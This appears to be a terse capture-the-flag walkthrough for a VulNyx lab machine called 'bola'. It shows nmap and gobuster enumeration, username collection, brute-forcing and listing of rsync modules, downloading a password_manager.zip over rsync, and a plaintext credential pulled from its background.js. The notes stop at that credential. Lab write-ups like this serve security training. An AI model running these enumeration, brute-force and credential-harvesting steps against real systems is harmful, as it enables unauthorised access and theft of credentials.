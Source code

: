 ___

```bash
export IP=192.168.0.24
./nmap.sh
```

/etc/hosts --> bola.nyx

# 80

```bash
gobuster dir -u http://bola.nyx/ -w /home/dani/Documents/lists/content.txt -t 200
```

http://bola.nyx/.well-known/openid-configuration

usernames
```
d4t4s3c
jackie0x17
ct0l4
```

# 873 Rsync

https://github.com/VulNyx/Arsenal/tree/main/rsync-brute

```bash
./rsync-brute -t bola.nyx -p 873 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
```

```bash
rsync -av --list-only rsync://192.168.0.24/extensions
```

```bash
rsync -avz rsync://bola.nyx/extensions/password_manager.zip .
```

```bash
cat background.js
username: "jackie0x17@nyx.com", password: "sbIJ0x9g{C3`"
```

